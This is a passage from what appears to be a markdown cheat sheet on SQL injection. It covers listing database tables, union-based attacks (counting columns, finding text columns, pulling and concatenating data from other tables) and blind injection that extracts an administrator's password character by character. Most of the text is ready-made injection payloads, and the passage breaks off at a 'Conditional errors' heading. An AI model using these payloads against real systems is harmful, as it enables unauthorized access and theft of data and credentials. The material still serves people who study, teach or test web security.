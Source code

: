 - SQL injection attack, listing the database contents 

	- Non-Oracle DB 
		```sql
		select * from information\_schema.tables
		```
	- Oracle DB
		```sql
		select * from all_tables
		```

#### Union SQL attack 

These attacks are perform to extract data using the same amount of row than the initial result could display. For this attack, working conditions are:
-   The individual queries must return the same number of columns.
-   The data types in each column must be compatible between the individual queries

You can have those following examples : 

- Determining the number of columns returned by the query
	 ```sql 	
	' union select NULL-- 
	 ``` 
	 *increasing number of NULL value until values are actually return*
	```sql
	' order by 1-- 
	```
	*increasing the int value until an error occured*
		
		
- Finding a column containing text
	```sql
	union select 'a', NULL, NULL, ...--
	```
	*Add as many null as you need to match the number of columns*
		
		
- Retrieving data from other tables
	```sql
	union select CHAMP1, CHAMP2, .... from TABLE_NAME--
	```
	 *Again add as many null value as needed* 
		
		
- Retrieving multiple values in a single column
	```sql 
	union select CHAMP1 || 'SEPERATOR' || CHAMP2 .... from TABLE_NAME--
	```
	*Very usefull when you only have the capacity to extract data from a uniq column*
		
		
#### Blind SQL attack 

- Conditional responses

	The goal here is to exfiltrate char by char fields using for exemple a query looking like this one : 
	```sql
	' and (select substring(password,1,1) from users where username='administrator')='a`
	```
- Conditional errors

